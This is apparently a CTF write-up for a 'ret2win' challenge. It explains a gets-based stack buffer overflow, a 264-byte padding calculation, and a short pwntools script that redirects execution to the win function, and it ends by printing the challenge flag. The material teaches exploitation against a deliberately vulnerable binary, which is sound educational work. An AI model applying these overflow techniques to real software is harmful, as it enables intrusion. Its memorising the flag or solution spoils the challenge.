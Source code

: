 # ret2win

## Challenge

`Author`: **godsword**

**Description**

> they say every ctf should have one of these

**Files**

- [main.c](./files/main.c)
- [out](./files/out)

## Writeup

This is a typical ret2win challenge, the goal is to redirect the execution of the program to the `win` function.

### Checksec

We can see that only NX is enabled (don't mind SHSTK && IBT for this challenge)
![checksec](./images/checksec.png)

### Vulnerability

In the main function there is a call to `gets` with `buffer` as an argument which is a stack buffer, and it's quite well known that since gets doesn't check input lenght, a **Buffer Overflow** is present in this case.

### Exploitation

The exploitation vector is quite straightforward, since there is no `stack canary`, we just need to overwrite main function return address to the address of the function `win` which is directly know since `PIE` is disabled.  
So, we just need to calculate the padding to main's return address from `buffer`, which can be done using cyclic and breaking in main+82.  
We got the value: `264` which is pretty logical, `0x100=256` bytes for `buffer` and `8` bytes for `old rbp`.

```py
def main():
    global io
    io = conn()
    io.recvuntil("> ")

    # payload = cyclic(0x200)
    payload = flat(
        264*b'A',
        exe.sym["win"]+5
    )

    io.sendline(payload)

    io.interactive()
```

> **Note:** We are returning to `win+5` in order to avoid stack alignement problems (we are just skipping the push rbp instruction in win)

> solve script [here](./solve/solve.py)

### Flag

**`ingehack{it_all_started_like_this}`**
